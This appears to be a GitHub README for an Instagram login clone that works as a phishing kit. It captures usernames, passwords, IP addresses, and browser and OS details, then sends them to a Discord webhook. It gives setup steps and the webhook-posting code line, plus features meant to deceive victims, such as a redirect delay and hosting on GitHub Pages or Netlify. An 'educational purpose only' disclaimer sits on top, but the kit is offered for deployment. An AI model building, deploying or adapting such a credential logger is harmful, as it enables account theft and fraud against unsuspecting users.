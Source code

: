 # 📸 Instagram-Like Credential Logger (Educational Purpose Only)

> ⚠️ **Disclaimer**  
> This project is intended strictly for **educational**, **testing**, or **authorized cybersecurity simulations** only. Unauthorized use of this tool for phishing, credential theft, or deception is **illegal** and against GitHub’s and Discord’s terms of service.

---

## 🚀 About the Project

This is a **replica of Instagram's login UI** that logs user credentials and sends them to a specified **Discord webhook** using an embed format. It also captures the **user's IP address**, **browser information**, and **operating system** for simulation of phishing scenarios or penetration testing environments.

---

## 🖥️ Interface Of Phishing Site:

![screenshot](images/instagram.png) 
![screenshot](discord.png) 

---

## 🧰 Features

- 📥 Captures `username` and `password`
- 🌐 Logs user's **IP address**
- 🖥️ Logs **Browser** and **Operating System**
- 📤 Sends all data via **Discord Embed** with rich formatting
- 🪞 Fully responsive and styled to match Instagram login UI
- ⏳ Includes redirect delay (2 seconds) after login
- 🌐 Easily hosted on GitHub Pages, Netlify, or localhost

---

## 🛠️ Discord Webhook Setup Instructions

### 1. Locate the Webhook Function

- Open the `index.html` file in your code editor.
- Scroll down to find the `sendMessage()` JavaScript function.

### 2. Update the Webhook URL

Inside the `sendMessage()` function, look for this line:

request.open("POST", "https://discord.com/api/webhooks/...");

- Replace it with your actual Discord webhook URL. You can create one via:
- Discord → Server Settings → Integrations → Webhooks → New Webhook
- Then update the code
